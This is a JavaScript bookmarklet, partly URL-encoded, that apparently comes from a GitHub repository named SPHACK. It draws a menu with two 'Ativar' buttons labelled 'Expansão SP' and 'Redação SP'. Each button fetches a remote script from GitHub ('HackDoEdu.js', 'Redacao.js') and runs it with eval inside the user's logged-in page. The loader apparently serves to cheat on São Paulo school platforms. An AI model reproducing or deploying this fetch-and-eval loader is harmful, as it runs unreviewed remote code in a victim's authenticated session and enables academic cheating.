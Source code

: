 javascript:(function() { if (document.getElementById('exploitMenu')) return; let menu = document.createElement('div'); menu.id = 'exploitMenu'; menu.style.position = 'fixed'; menu.style.top = '50%'; menu.style.left = '50%'; menu.style.transform = 'translate(-50%, -50%)'; menu.style.background = 'rgba(0, 0, 0, 0.8)'; menu.style.color = 'white'; menu.style.padding = '20px'; menu.style.borderRadius = '10px'; menu.style.boxShadow = '0px 0px 10px rgba(0, 0, 0, 0.5)'; menu.style.zIndex = '9999'; menu.style.fontFamily = 'Arial, sans-serif'; menu.style.textAlign = 'center'; menu.style.width = '90%'; menu.style.maxWidth = '300px'; let title1 = document.createElement('h2'); title1.innerText = 'Expans%C3%A3o SP'; title1.style.marginBottom = '10px'; let button1 = document.createElement('button'); button1.innerText = 'Ativar'; button1.style.padding = '10px 20px'; button1.style.fontSize = '16px'; button1.style.border = 'none'; button1.style.borderRadius = '5px'; button1.style.cursor = 'pointer'; button1.style.background = '#28a745';%20%20%20%20button1.style.color%20=%20'white';%20%20%20%20button1.style.transition%20=%20'0.3s';%20%20%20%20button1.style.marginBottom%20=%20'10px';%20%20%20%20%20%20%20%20button1.onmouseover%20=%20function()%20{%20this.style.background%20=%20'#218838';%20};%20%20%20%20button1.onmouseout%20=%20function()%20{%20this.style.background%20=%20'#28a745';%20};%20%20%20%20%20%20%20%20button1.onclick%20=%20function()%20{%20%20%20%20%20%20%20%20fetch(%60https://raw.githubusercontent.com/Slashzinmaker/SPHACK/refs/heads/main/HackDoEdu.js?${Math.floor(Math.random()%20*%201000000)}%60)%20%20%20%20%20%20%20%20%20%20%20%20.then(response%20=%3E%20response.text())%20%20%20%20%20%20%20%20%20%20%20%20.then(code%20=%3E%20eval(code));%20%20%20%20};%20%20%20%20%20%20%20%20let%20title2%20=%20document.createElement('h2');%20%20%20%20title2.innerText%20=%20'Reda%C3%A7%C3%A3o%20SP';%20%20%20%20title2.style.marginBottom%20=%20'10px';%20%20%20%20%20%20%20%20let%20button2%20=%20document.createElement('button');%20%20%20%20button2.innerText%20=%20'Ativar';%20%20%20%20button2.style.padding%20=%20'10px%2020px';%20%20%20%20button2.style.fontSize%20=%20'16px';%20%20%20%20button2.style.border%20=%20'none';%20%20%20%20button2.style.borderRadius%20=%20'5px';%20%20%20%20button2.style.cursor%20=%20'pointer';%20%20%20%20button2.style.background%20=%20'#007bff';%20%20%20%20button2.style.color%20=%20'white';%20%20%20%20button2.style.transition%20=%20'0.3s';%20%20%20%20%20%20%20%20button2.onmouseover%20=%20function()%20{%20this.style.background%20=%20'#0056b3';%20};%20%20%20%20button2.onmouseout%20=%20function()%20{%20this.style.background%20=%20'#007bff';%20};%20%20%20%20%20%20%20%20button2.onclick%20=%20function()%20{%20%20%20%20%20%20%20%20fetch(%60https://raw.githubusercontent.com/Slashzinmaker/SPHACK/refs/heads/main/Redacao.js%60)%20%20%20%20%20%20%20%20%20%20%20%20.then(response%20=%3E%20response.text())%20%20%20%20%20%20%20%20%20%20%20%20.then(code%20=%3E%20eval(code));%20%20%20%20};%20%20%20%20%20%20%20%20let%20closeButton%20=%20document.createElement('span');%20%20%20%20closeButton.innerText%20=%20'%C3%97';%20%20%20%20closeButton.style.position%20=%20'absolute';%20%20%20%20closeButton.style.top%20=%20'10px';%20%20%20%20closeButton.style.right%20=%20'15px';%20%20%20%20closeButton.style.cursor%20=%20'pointer';%20%20%20%20closeButton.style.fontSize%20=%20'20px';%20%20%20%20closeButton.onclick%20=%20function()%20{%20menu.remove();%20};%20%20%20%20%20%20%20%20menu.appendChild(title1);%20%20%20%20menu.appendChild(button1);%20%20%20%20menu.appendChild(title2);%20%20%20%20menu.appendChild(button2);%20%20%20%20menu.appendChild(closeButton);%20%20%20%20document.body.appendChild(menu);})();
